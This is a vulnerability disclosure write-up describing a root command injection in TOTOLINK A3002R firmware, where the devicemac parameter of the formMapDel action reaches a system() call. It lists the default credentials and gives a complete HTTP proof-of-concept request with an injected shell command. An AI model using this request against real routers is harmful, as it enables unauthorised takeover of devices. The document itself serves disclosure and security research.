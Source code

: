 ## Description

A remote code execution vulnerability was discovered in the TOTOLINK A3002R firmware version V4.0.0-B20230531.1404. The vulnerability exists in the `FUN_00459fdc` function, which improperly sanitizes user input before passing it to a `system()` call. This allows an attacker to inject arbitrary commands that will be executed with root privileges on the device.

## Affected Product

- ​**Brand**: TOTOLINK
- ​**Product**: A3002R
- ​**Version**: V4.0.0-B20230531.1404

The firmware can be downloaded from this [website]([https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/258/ids/36.html)) and using FirmAE to simulate the router environment.   The command is

```shell
sudo ./run.sh -d TOTOLINK ../FIRMWARE/TOTOLINK_A3002R_Ge_V4_0_0_B20230531_1404.web
```

The default username is 'admin', password is 'admin'.
The result of the simulation is as follows: 

![[sim_res.png]]
## Vulnerability Analysis

The vulnerable code constructs a command string using unsanitized user input (`devicemac%d` parameter) and passes it directly to the `system()` function. Using ghidra we can find the code below in function `FUN_00459fdc`:

![[work_record/TOTOLINK/2/img/code_1.png]]

sink point:
![[sink.png]]

The lack of input validation allows command injection through the `devicemac%d` parameter. An attacker can break out of the intended command structure and execute arbitrary commands by including shell metacharacters.

Furthermore, through analysis of the function `FUN_0040f2b4` using Ghidra, we determined that the function's purpose is to obtain the value of the parameter with the specified name in the POST.

The details of the function as follows:

* **Address**: 00459fdc
* **Function**: FUN_00459fdc
* **Parameter**: devicemac%d

## Proof of Concept (PoC)

Through ghidra we can find that this function is triggered by action 'formMapDel', so we use burpsuite to capture a normal POST packet to obtain the sessionCheck parameter for authentication and modify the packet.
Here we set the parameter `deviceNum`=2 and `enabled1`=ON to ensure the vulnerable code being excuted.
The following HTTP request demonstrates command injection that creates a file in the root directory:

```http
POST /boafrm/formMapDel HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 101
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/wlsecurity.htm?t=1744618117722

sessionCheck=a6bdaa17dd6b63a74eb809d6fa1fc2f1&deviceNum=2&enabled1=ON&devicemac1=;echo "poc">/poc.txt
```

The result of the POC is as follows. You can execute any command you want, here we create a poc.txt file with the content "poc" in the root directory.

![[burp.png]]

In the FirmAE terminal, we check whether the command is executed successfully. We can see that the command is executed successfully and the poc is written into the poc.txt file.

![[res.png]]
